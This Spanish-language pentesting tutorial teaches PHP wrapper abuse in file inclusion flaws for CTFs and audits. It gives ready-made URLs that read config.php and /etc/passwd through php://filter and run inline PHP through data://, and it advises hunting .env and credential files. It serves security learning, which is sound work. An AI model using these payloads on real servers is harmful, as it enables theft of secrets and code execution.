

# 🔗 Técnica Wrapper en PHP

---

## 📝 Introducción

### ¿Qué es la técnica Wrapper en PHP?

La **técnica Wrapper en PHP** consiste en aprovechar los "wrappers" o manejadores de flujos especiales que PHP ofrece para manipular archivos, recursos y datos de formas no convencionales. Es especialmente útil en escenarios de **File Inclusion** (inclusión de archivos) y puede permitir la **lectura, manipulación o exfiltración de archivos** en aplicaciones vulnerables.

### ¿Para qué sirve?

- **Leer archivos fuente** (incluso si el servidor solo ejecuta el código)
- **Bypassear restricciones** de inclusión de archivos
- **Explotar vulnerabilidades LFI/RFI** (Local/Remote File Inclusion)
- **Obtener información sensible** (credenciales, rutas, código fuente)

### Contextos de uso

- Pentesting de aplicaciones web PHP
- CTFs y laboratorios de hacking
- Auditoría de seguridad en servidores web

---

## 🛠️ Guía Práctica Paso a Paso

### 1. Identificar un parámetro vulnerable

Busca URLs como:

```
http://<ip_victima>/index.php?page=about.php
```

> [!info] Indicio de vulnerabilidad
> Si el parámetro `page` se utiliza para incluir archivos, podrías explotar wrappers de PHP.

### 2. Usar un wrapper para obtener el código fuente

El wrapper más común es **php://filter**. Permite aplicar filtros a la lectura de archivos.

#### Sintaxis básica

```
php://filter/convert.base64-encode/resource=archivo
```

#### Ejemplo real

```
http://<ip_victima>/index.php?page=php://filter/convert.base64-encode/resource=about.php
```

Esto devolverá el contenido de `about.php` codificado en base64 en vez de ejecutarlo.

### 3. Decodificar el resultado

Copia el contenido base64 obtenido y decodifícalo en tu terminal:

```bash
echo "PD9waHAgZWNobyAiSG9sYSBXb3JsZCI7ID8+" | base64 -d
```

> [!example] Salida esperada
> ```
> <?php echo "Hola World"; ?>
> ```

---

## ⚙️ Parámetros y Wrappers Comunes

| Wrapper | Descripción | Ejemplo de uso |
|---------|-------------|----------------|
| `php://filter` | Aplica filtros a la lectura de archivos | `php://filter/convert.base64-encode/resource=about.php` |
| `php://input` | Accede al cuerpo de la petición HTTP | `php://input` |
| `php://memory` | Acceso a un stream en memoria | `php://memory` |
| `php://temp` | Stream temporal en disco/memoria | `php://temp` |
| `data://` | Permite incluir datos inline (RFI) | `data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==` |

> [!tip] El más usado en hacking es **php://filter** para leer código fuente.

---

## 💻 Ejemplos Prácticos

### Ejemplo 1: LFI con php://filter

```bash
# URL vulnerable
http://victima.com/index.php?page=php://filter/convert.base64-encode/resource=config.php

# Decodificar el resultado
echo "<contenido_base64>" | base64 -d
```

### Ejemplo 2: LFI con data://

```bash
# Incluir código PHP directamente (si allow_url_include=On)
http://victima.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
```

### Ejemplo 3: Exfiltración de archivos sensibles

```bash
# Leer /etc/passwd codificado en base64
http://victima.com/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```

---

## 🛡️ Tips y Buenas Prácticas

> [!tip] Consejos para pentesters
> - **Prueba siempre** con `php://filter/convert.base64-encode/resource=...` en parámetros de inclusión.
> - **Busca archivos sensibles**: `config.php`, `.env`, `database.php`, `/etc/passwd`.
> - **Automatiza la decodificación** con scripts bash o Python.
> - **Verifica si allow_url_include está activo** para probar wrappers como `data://` o `http://`.

> [!warning] Errores comunes
> - El wrapper puede estar deshabilitado por configuración (`allow_url_include=Off`).
> - Algunos servidores filtran la cadena `php://` o `filter`.
> - El archivo puede no ser legible por permisos.

---

## 📊 Tabla Comparativa de Wrappers

| Wrapper | ¿Permite leer archivos? | ¿Permite ejecutar código? | ¿Común en CTFs? |
|---------|-------------------------|--------------------------|-----------------|
| `php://filter` | ✅ | ❌ | ⭐⭐⭐⭐⭐ |
| `php://input` | ❌ | ✅ (en POST) | ⭐⭐⭐ |
| `data://` | ✅ | ✅ (si allow_url_include=On) | ⭐⭐⭐⭐ |
| `file://` | ✅ | ❌ | ⭐⭐⭐ |
| `zip://` | ✅ (archivos comprimidos) | ❌ | ⭐⭐ |

---

## 🔍 Diagrama de Flujo: Wrapper Attack



---

## 🧠 Resumen

- **Técnica wrapper**: Permite leer archivos fuente y exfiltrar información usando flujos especiales de PHP.
- **Ideal para**: LFI, RFI, análisis de código fuente, CTFs.
- **Clave**: Probar siempre en parámetros de inclusión de archivos.

---

> [!success] ¡Recuerda!
> La técnica wrapper es una de las más poderosas en pentesting web PHP. Siempre que veas un parámetro que incluye archivos, ¡prueba los wrappers!
